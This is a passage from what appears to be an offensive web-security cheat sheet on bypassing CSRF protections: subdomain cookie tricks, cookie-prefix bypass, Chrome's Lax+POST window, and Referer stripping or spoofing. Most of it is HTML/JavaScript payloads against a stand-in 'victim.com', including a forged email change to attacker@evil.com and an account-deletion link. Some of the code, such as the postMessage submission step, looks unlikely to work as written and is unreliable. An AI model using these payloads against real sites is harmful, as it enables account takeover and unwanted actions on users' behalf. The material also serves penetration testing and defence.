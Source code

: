       - Implementation:
        ```html
        <!-- If victim.com sets cookies for *.victim.com -->
        <iframe src="https://subdomain.victim.com/page-with-csrf-vulnerability"></iframe>
        ```
    - Cookie prefixing bypass:
      - Test for improper implementation of cookie prefixes
      - Look for applications accepting cookies without checking prefixes
    - Browser transition exploits:
      - Chrome's 2-minute Lax+POST window for new cookies
      - Implementation:
        ```html
        <script>
          // Create new window and force new session cookie
          var win = window.open('https://victim.com/logout');
          setTimeout(() => {
            win.location = 'https://victim.com/login?auto=true';
            setTimeout(() => {
              win.location = 'https://victim.com/csrf-vulnerable-form';
              setTimeout(() => {
                // Execute POST-based CSRF during 2-min window
                win.postMessage('submit-form', 'https://victim.com');
              }, 1000);
            }, 1000);
          }, 1000);
        </script>
        ```

  - **Referer header manipulation**
    - Removing Referer entirely:
      ```html
      <meta name="referrer" content="no-referrer">
      <a href="https://victim.com/account?action=delete" target="_blank">Click me</a>
      ```
    - Partial Referer validation exploitation:
      ```html
      <!-- If application only checks for "victim.com" substring -->
      <meta name="referrer" content="unsafe-url">
      <iframe src="https://attacker.com/page?victim.com"></iframe>
      ```
    - Dynamic Referer control:
      ```html
      <script>
        // Create a link with controlled Referer
        var link = document.createElement('a');
        link.href = 'https://victim.com/api/settings?email=attacker@evil.com';
        link.rel = 'noreferrer';
        // Dynamically test different referrer policies
        link.referrerPolicy = 'no-referrer';
        link.target = '_blank';
        document.body.appendChild(link);
        link.click();
      </script>
      ```
    - Protocol switching:
      - HTTP to HTTPS transitions may strip Referer
      - Implementation:
        ```html
        <meta name="referrer" content="origin">
        <iframe src="http://victim-http-endpoint.com/form"></iframe>
        ```
